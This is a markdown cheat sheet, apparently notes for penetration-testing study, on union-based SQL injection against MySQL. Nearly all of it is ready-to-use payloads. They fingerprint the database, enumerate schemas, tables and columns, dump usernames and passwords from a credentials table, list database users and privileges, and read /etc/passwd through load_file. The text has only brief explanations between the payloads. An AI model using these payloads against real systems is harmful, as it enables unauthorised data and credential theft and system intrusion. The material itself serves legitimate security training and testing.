 ```sql
cn' UNION select 1,2,3-- -
cn' UNION select 1,2,3,4-- -
cn' UNION select 1,@@version,3,4-- -
```

the command `@@version` shows the database version.

### How to know if you're using MySQL?

| Payload          | When to Use                      | Expected Output                                   | Wrong Output                                              |
| ---------------- | -------------------------------- | ------------------------------------------------- | --------------------------------------------------------- |
| SELECT @@version | When we have full query output   | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| SELECT POW(1,1)  | When we only have numeric output | 1                                                 | Error with other DBMS                                     |
| SELECT SLEEP(5)  | Blind/No Output                  | Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS                   |

```sql
n' union select 1,2,3,@@version-- -
```

You can list all databases in by selecting the `schema_name` column in the `information_schema.schemata` table.

```sql
n' union select 1,schema_name,3,4 from information_schema.schemata-- -
n' union select 1,2,3,database()-- -
n' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema!='information_schema'-- -
cn' union select 1,column_name,table_name,table_schema from information_schema.columns where table_name='credentials'-- -
cn' union select 1,username,password,4 from dev.credentials-- -
```

### Identify the database user

You have 3 methods to dump the database users.

```sql
cn' union select 1,user(),3,4-- -
cn' union select 1,current_user(),3,4-- -
cn' union select 1,user,3,4 from mysql.user-- -
```

Check if you have admin privileges.

```sql
cn' union select 1,super_priv,3,4 from mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' union select 1,grantee,privilege_type,4 from information_schema.user_privileges-- -
```

### Load file

```sql
cn' union select 1,2,load_file("/etc/passwd"),4-- -
```
